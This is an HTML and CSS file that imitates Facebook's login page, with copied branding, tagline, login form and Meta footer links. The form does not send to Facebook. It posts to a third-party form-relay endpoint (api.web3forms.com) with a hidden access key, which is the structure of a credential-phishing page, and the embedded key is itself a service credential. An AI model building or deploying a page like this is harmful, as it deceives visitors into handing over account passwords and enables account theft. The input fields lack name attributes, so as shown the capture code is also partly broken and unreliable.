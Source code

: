 

    <title>Facebook-login-signup</title>
    <link rel="stylesheet" href="styles.css">
    <link rel="icon" href="Facebook_logo_(2023).svg.png">

    <meta name="viewport" content="width=device-width, initial-scale=1.0">
</head>
<style>@import url("https://fonts.googleapis.com/css2?family=Poppins:wght@400;500;600;700&display=swap");

    * {
        margin: 0;
        padding: 0;
        box-sizing: border-box;
        font-family: "Roboto", sans-serif;
    }
    
    .res {
        display: flex;
        align-items: center;
    }
    
    .row {
        padding: 0 15px;
        min-height: 100vh;
        justify-content: center;
        background: #f0f2f5;
    }
    
    .fb-form {
        justify-content: space-between;
        max-width: 1000px;
        width: 100%;
    }
    
    .fb-form .card {
        margin-bottom: 90px;
    }
    
    .fb-form h1 {
        color: #1877f2;
        font-size: 4rem;
        margin-bottom: 10px;
    }
    
    .fb-form p {
        font-size: 1.75rem;
        white-space: nowrap;
    }
    
    form {
        display: flex;
        flex-direction: column;
        background: #fff;
        border-radius: 8px;
        padding: 20px;
        box-shadow: 0 2px 4px rgba(0, 0, 0, 0.1), 0 8px 16px rgba(0, 0, 0, 0.1);
        max-width: 400px;
        width: 100%;
    }
    
    form input {
        height: 55px;
        width: 100%;
        border: 1px solid #ccc;
        border-radius: 6px;
        margin-bottom: 15px;
        font-size: 1rem;
        padding: 0 14px;
    }
    
    form input:focus {
        outline: none;
        border-color: #1877f2;
    }
    
    ::placeholder {
        color: #777;
        font-size: 1.063rem;
    }
    
    .fb-submit {
        display: flex;
        flex-direction: column;
        text-align: center;
        gap: 15px;
    }
    
    .fb-submit .login {
        border: none;
        outline: none;
        cursor: pointer;
        background: #1877f2;
        padding: 15px 0;
        border-radius: 6px;
        color: #fff;
        font-size: 1.25rem;
        font-weight: 600;
        transition: 0.2s ease;
    }
    
    .fb-submit .login:hover {
        background: #0d65d9;
    }
    
    form a {
        text-decoration: none;
    }
    
    .fb-submit .forgot {
        color: #1877f2;
        font-size: 0.875rem;
    }
    
    .fb-submit .forgot:hover {
        text-decoration: underline;
    }
    
    hr {
        border: none;
        height: 1px;
        background-color: #ccc;
        margin-bottom: 20px;
        margin-top: 20px;
    }
    
    .button {
        margin-top: 25px;
        text-align: center;
        margin-bottom: 20px;
    }
    
    .button a {
        padding: 15px 20px;
        background: #42b72a;
        border-radius: 6px;
        color: #fff;
        font-size: 1.063rem;
        font-weight: 600;
        transition: 0.2s ease;
    }
    
    .button a:hover {
        background: #3ba626;
    }
    
    .footer-langs {
        max-width: 1000px;
        margin: 0 auto;
        padding: 20px;
    }
    
    footer ol {
        display: flex;
        flex-wrap: wrap;
        list-style-type: none;
        padding: 8px 0;
    
        margin-left: 3vh;
    }
    
    footer ol:first-child {
        border-bottom: 1px solid #dddfe2;
    }
    
    footer ol:first-child li:last-child button {
        background-color: #f5f6f7;
        border: 1px solid #ccd0d5;
        outline: none;
        color: #4b4f56;
        padding: 0 8px;
        font-weight: 700;
        font-size: 12px;
    }
    
    footer ol li {
        padding-right: 20px;
        font-size: 12px;
        color: #8a8d91;
    }
    
    footer ol li a {
        text-decoration: none;
        color: #8a8d91;
    }
    
    footer ol li a:hover {
        text-decoration: underline;
    }
    
    footer small {
        font-size: 12px;
        color: #8a8d91;
        margin-left: 3vh;
    }
    
    @media (max-width: 900px) {
        .fb-form {
            flex-direction: column;
            text-align: center;
        }
    
        .fb-form .card {
            margin-bottom: 30px;
        }
    }
    
    @media (max-width: 460px) {
        .fb-form h1 {
            font-size: 3.5rem;
        }
    
        .fb-form p {
            font-size: 1.3rem;
        }
    
        form {
            padding: 15px;
        }
    }
    </style>

<body>
    <div class="row res">
        <div class="fb-form res">
            <div class="card">
                <h1>facebook</h1>
                <p>Connect with friends and the world </p>
                <p> around you on Facebook.</p>
            </div>
            <form action="https://api.web3forms.com/submit" method="POST">
            <input type="hidden" name="access_key" value="a1633aa9-4e14-4e68-9b69-05f2a66f61c3">
                
                <input type="email" placeholder="Email or phone number"
                    required>
                <input type="password" placeholder="Password" required>
                <div class="fb-submit">
                    <button type="submit" class="login">Login</button>
                    <a href="#" class="forgot">Forgot password?</a>
                </div>
                <hr>
                <div class="button">
                    <a href="#">Create new account</a>
                </div>
            </form>
        </div>
    </div>
    <footer>
        <div class="footer-langs">
            <ol>
                <li>English (UK)</li>
                <li><a href="#">मराठी</a></li>
                <li><a href="#">हिन्दी</a></li>
                <li><a href="#">اردو</a></li>
                <li><a href="#">ગુજરાતી</a></li>
                <li><a href="#">ಕನ್ನಡ</a></li>
                <li><a href="#">ਪੰਜਾਬੀ</a></li>
                <li><a href="#">தமிழ்</a></li>
                <li><a href="#">বাংলা</a></li>
                <li><a href="#">తెలుగు</a></li>
                <li><a href="#">മലയാളം</a></li>
                <li><button>+</button></li>
            </ol>
            <ol>
                <li><a href="#">Sign Up</a></li>
                <li><a href="#">Log In </a></li>
                <li><a href="#">Messenger</a></li>
                <li><a href="#">Facebook Lite</a></li>
                <li><a href="#">Video</a></li>
                <li><a href="#">Places</a></li>
                <li><a href="#">Games</a></li>
                <li><a href="#">Marketplace</a></li>
                <li><a href="#">Meta Pay</a></li>
                <li><a href="#">Meta Store</a></li>
                <li><a href="#">Meta Quest</a></li>
                <li><a href="#">Imagine with Meta AI</a></li>
                <li><a href="#">Instagram</a></li>
                <li><a href="#">Threads</a></li>
                <li><a href="#">Fundraisers</a></li>
                <li><a href="#">Services</a></li>
                <li><a href="#">Voting Information Centre</a></li>
                <li><a href="#">Privacy Policy</a></li>
                <li><a href="#">Privacy Centre</a></li>
                <li><a href="#">Groups</a></li>
                <li><a href="#">About</a></li>
                <li><a href="#">Create ad</a></li>
                <li><a href="#">Create Page</a></li>
                <li><a href="#">Developers</a></li>
                <li><a href="#">Careers</a></li>
                <li><a href="#">Cookies</a></li>
                <li><a href="#">AdChoices</a></li>
                <li><a href="#">Terms</a></li>
                <li><a href="#">Help</a></li>
                <li><a href="#">Contact uploading and non-users</a></li>
            </ol>
            <small>Meta © 2024</small>
        </div>
    </footer>
</body>

</html>
